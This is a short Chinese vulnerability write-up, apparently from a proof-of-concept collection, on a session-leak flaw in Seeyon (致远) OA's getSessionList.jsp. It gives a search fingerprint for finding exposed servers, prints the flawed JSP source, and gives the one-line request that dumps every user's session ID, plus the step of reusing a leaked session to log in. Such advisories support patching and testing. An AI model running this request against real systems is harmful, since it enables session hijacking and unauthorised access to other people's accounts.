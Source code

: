 # 致远OA getSessionList.jsp Session泄漏漏洞

## 漏洞描述

通过使用存在漏洞的请求时，会回显部分用户的Session值，导致出现任意登录的情况

## 影响版本

<a-checkbox checked>未知</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

出现漏洞的源码

```java
<%@ page contentType="text/html;charset=GBK"%>
<%@ page session= "false" %>
<%@ page import="net.btdz.oa.ext.https.*"%>
<%
    String reqType = request.getParameter("cmd");
    String outXML = "";
    boolean allowHttps = true;
    if("allowHttps".equalsIgnoreCase(reqType)){
        //add code to judge whether it allow https or not
        allowHttps = FetchSessionList.checkHttps();
        if (allowHttps) response.setHeader("AllowHttps","1");
    }
    if("getAll".equalsIgnoreCase(reqType)){
        outXML = FetchSessionList.getXMLAll();
    }
    else if("getSingle".equalsIgnoreCase(reqType)){
        String sessionId = request.getParameter("ssid");
        if(sessionId != null){
            outXML = FetchSessionList.getXMLBySessionId(sessionId);
        }
    }
    else{
        outXML += "<?xml version=\"1.0\" encoding=\"GB2312\"?>\r\n";
        outXML += "<SessionList>\r\n";
//        outXML += "<Session>\r\n";
//        outXML += "</Session>\r\n";
        outXML += "</SessionList>\r\n";
    }
    out.println(outXML);
%>
```



从上面的代码可知，当cmd参数为getAll时，便可获取到所有用户的SessionID ,请求

```plain
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

回显Session则存在漏洞



![img](../../../.vuepress/public/img/zhiyuan-21.png)



通过替换 Session即可登陆系统



## 